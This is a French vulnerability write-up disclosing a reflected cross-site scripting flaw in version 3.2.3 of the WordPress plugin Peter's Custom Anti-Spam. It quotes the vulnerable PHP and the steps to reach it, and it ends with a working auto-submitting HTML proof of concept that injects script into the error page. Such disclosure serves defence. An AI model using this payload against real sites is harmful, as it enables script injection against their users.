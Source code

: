 ```yaml
---
title: "Cross-Site Scripting (reflected) dans le plugin Wordpress Peter's Custom Anti-Spam"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin [Peter’s Custom Anti-Spam](https://wordpress.org/plugins/peters-custom-anti-spam-image/) se présente de cette façon :

> Stop a lot of spambots from polluting your site by making visitors identify a random word displayed as an image before commenting and optionally before registering. You can customize the pool of words to display.

La liste des fonctionnalités peut être vue sur la page wordpress du plugin.

La version testée est la 3.2.3 qui date d'il y a 3 mois au moment de ces lignes.

À noter que d'après le changelog cette version corrige déjà une faille XSS :

```
Change Log:                                                                                                            
2023-08-30  Version 3.2.3  Fix back-end XSS vulnerability
```

En effet, [une vulnérabilité](https://patchstack.com/database/vulnerability/peters-custom-anti-spam-image/wordpress-peter-s-custom-anti-spam-plugin-3-2-2-reflected-cross-site-scripting-xss-vulnerability/) a été trouvée sur les précédentes version.

En raison du manque d'information, il m'est impossible de savoir si elles sont liées. L'auteur indique avoir fixé la vulnérabilité, mais comme le code ne semble pas versionné sur Github difficile de fouiller d'avantage.

## La vulnérabilité

Le code du projet est rassemblé dans un fichier `custom_anti_spam.php` de presque 1300 lignes.

On y trouve une classe avec un constructeur qui hooke la soumission des commentaires en entrée :

```php
class PeterAntiSpam                                                                                                
{                                                                                                                  
    function __construct()                                                                                         
    {                                                                                                              
        $cas_manualinsert = casFunctionCollection::get_settings( 'manualinsert' );                                 
        add_action( 'secure_image', array( $this, 'comment_form' ) );    // add image and input field to comment form
        if( !$cas_manualinsert )                                                                                   
        {                                                                                                          
            add_action( 'comment_form', array( $this, 'comment_form' ) );    // add image and input field to comment form
        }                                                                                                          
        add_filter( 'preprocess_comment', array( $this, 'comment_post') );    // add post comment post security code check
    }
```

D'après [la documentation Wordpress](https://developer.wordpress.org/reference/hooks/preprocess_comment/) :

```
apply_filters( 'preprocess_comment', array $commentdata )

Filters a comment’s data before it is sanitized and inserted into the database.
```

C'est cette fonction de hook qui est vulnérable :

```php
static function comment_post( $incoming_comment )                                                              
{                                                                                                              
    global $cas_textcount, $user_ID, $cas_table, $wpdb;
    --- snip ---
    if( isset( $_POST['matchthis'] ) )                                                                         
    {                                                                                                          
        $matchnum = intval( $_POST['matchthis'] );                                                             
    }                                                                                                          
    else                                                                                                       
    {                                                                                                          
        $matchnum = 0;                                                                                         
    }

    // If the user is not logged in check the security code                                                    
    if( ( $cas_forcereg || 0 == intval( $user_ID ) ) && !is_admin() )                                          
    {                                                                                                          
        $istrackping = $incoming_comment['comment_type'];                                                      
        $commentbody = $incoming_comment['comment_content'];                                                   
        if ( $istrackping == 'pingback' && $cas_allowping )                                                    
        {                                                                                                      
                                                                                                               
            // Send all pingbacks to a moderation queue?                                                       
            if ($cas_modping) add_filter('pre_comment_approved', create_function('$mod_ping', 'return \'0\';'));
        }                                                                                                      
        elseif ( $istrackping == 'trackback' && $cas_allowtrack )                                              
        {                                                                                                      
                                                                                                               
            // Send all trackbacks to a moderation queue?                                                      
            if ($cas_modtrack)                                                                                 
            {                                                                                                  
                add_filter('pre_comment_approved', create_function('$mod_track', 'return \'0\';'));            
            }                                                                                                  
        }                                                                                                      
        else                                                                                                   
        {                                                                                                      
            // Get the anti-spam word from the database                                                        
            $matchthis = $wpdb->get_row('SELECT word, fieldname FROM ' . $cas_table . ' WHERE id = ' . $matchnum);
                                                                                                               
            // If this row doesn't exist, say something                                                        
            if( is_null( $matchthis ) )                                                                        
            {                                                                                                  
                wp_die( '<p>' . __( 'Error: The anti-spam word is invalid. Please report this error to the webmaster. Go back and refresh the page to re-submit your comment.', 'peters_custom_anti_spam' ) . "</p>\n<p>" . $cas_string_copy_field . "</p>\n<textarea cols=\"100%\" rows=\"10\" onclick=\"this.select();\" readonly=\"true\">$commentbody</textarea>" );
            }
```

On voit à la fin que la fonction `die()` destinée à afficher un message d'erreur affiche telle quelle la variable `$commentbody` sans échappement préalable des potentiels caractères HTML.

Ce manquement permet l'injection de code Javascript (XSS).

Pour atteindre à cette ligne de code vulnérable, il faut :

* soumettre un commentaire
* indiquer une valeur de `matchthis` très haute (ou négative) afin qu'il n'y ait pas de correspondance en base pour rentrer dans la gestion d'erreur
* laisser `comment_type` vide afin d'entrer dans le dernier `else`
* spécifier un ID de post valide sur lequel on commente

PoC au format HTML avec auto-submit

```html
<html>
<body>
<form id="myForm" method="POST" action="http://localhost:8000/wp-comments-post.php">
        <input type="hidden" name="author" value="default" />
        <input type="hidden" name="email" value="whatever@mailinator.com" />
        <input type="hidden" name="url" value="https://perdu.com/" />
        <input type="hidden" name="wp-comment-cookies-consent" value="yes" />
        <input type="hidden" name="submit" value="Post Comment" />
        <input type="hidden" name="comment_post_ID" value="4" />
        <input type="hidden" name="comment_parent" value="0" />
        <input type="hidden" name="matchthis" value="-1" />
        <input type="hidden" name="comment" value="&lt;/textarea&gt;&lt;ScRiPt&gt;alert(/XSS/)&lt;/sCrIpT&gt;" />
</form>
<script>document.createElement('form').submit.call(document.getElementById('myForm'));</script>
</body>
</html>
```
